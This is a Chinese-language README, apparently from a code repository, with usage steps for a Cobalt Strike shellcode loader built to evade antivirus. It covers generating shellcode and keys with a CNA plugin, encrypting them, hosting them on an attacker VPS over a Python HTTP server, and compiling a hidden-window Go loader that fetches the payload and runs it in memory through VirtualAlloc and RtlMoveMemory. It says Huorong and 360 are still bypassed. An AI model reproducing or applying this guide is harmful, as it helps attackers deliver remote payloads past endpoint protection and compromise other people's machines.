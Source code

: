 > 1. CS加载Bypass_Remake.cna插件，生成shellcode和加密key1、key2、key3：

"Attack" > "BypassShellCode"

> 2. 生成加密器

**Win：** `go build -ldflags "-s -w" process_shellcode.go`

**Linux：** `GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" process_shellcode.go`

> 3. 将得到的shellcode和key的值分别做加密：

`process_shellcode.exe shellcode > sscode.txt`

`process_shellcode.exe key1 > ky1.txt`

`process_shellcode.exe key2 > ky2.txt`

`process_shellcode.exe key3 > ky3.txt`

> 4. 把key文件和shellcode文件，放在vps上，并用py起一个http服务端：

**Py2：** `python -m SimpleHTTPServer 8080`

**Py3：** `python3 -m http.server 8080`

> 5. 修改shellcode_loader.go中的vps请求地址即可：
```
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlMoveMemory")
	URI           = "http://vps:8080/"
)
```

> 6. 编译go文件：

`go build -ldflags "-s -w -H windowsgui" shellcode_loader.go`

> 7. 运行shellcode_loader.exe即可

> WD已经杀了，火绒和360还是可以绕
